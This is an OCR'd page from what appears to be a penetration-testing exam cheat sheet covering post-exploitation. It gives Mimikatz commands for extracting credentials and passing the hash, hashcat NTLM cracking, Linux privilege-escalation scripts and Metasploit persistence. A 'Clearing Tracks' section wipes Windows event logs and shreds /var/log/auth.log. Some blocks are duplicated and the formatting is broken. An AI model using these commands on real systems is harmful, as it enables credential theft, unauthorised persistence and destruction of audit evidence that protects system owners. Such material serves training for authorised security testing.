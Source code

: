 ### Post-Exploitation Framework

**Windows (Mimikatz)

```
mimikatz # privilege::debug
```

```
mimikatz # sekurlsa::pth /user:Admin /domain:TEST /ntlm:NTLM_HASH
```

```
./LinEnum.sh -t -r report.html`
```

### Clearing Tracks

**Windows Event Log Manipulation

```
meterpreter > clearev
```

```
meterpreter > run event_manager -i
```

**Linux Log Cleaning

```
shred -zu /var/log/auth.log
```

**Linux Log Cleaning

```
shred -zu /var/log/auth.log
```

### Exam-Critical Reference Table


| Technique         | Tool       | Command Example            | Key Flags           |
| ----------------- | ---------- | -------------------------- | ------------------- |
| Hash Extraction   | mimikatz   | `sekurlsa::logonpasswords` | Requires admin      |
| Password Cracking | hashcat    | `hashcat -m 1000` for NTLM | `--force` for GPU   |
| Privilege Escal.  | linpeas.sh | `./linpeas.sh`             | Look for yellow/red |
| Persistence       | metasploit | `run persistence -X`       | `-i` for interval   |

### Practical Exam Checklist

1. Extract password hashes
2. Crack at least one admin hash
3. Escalate privileges
4. Establish persistence
5. Clear event logs
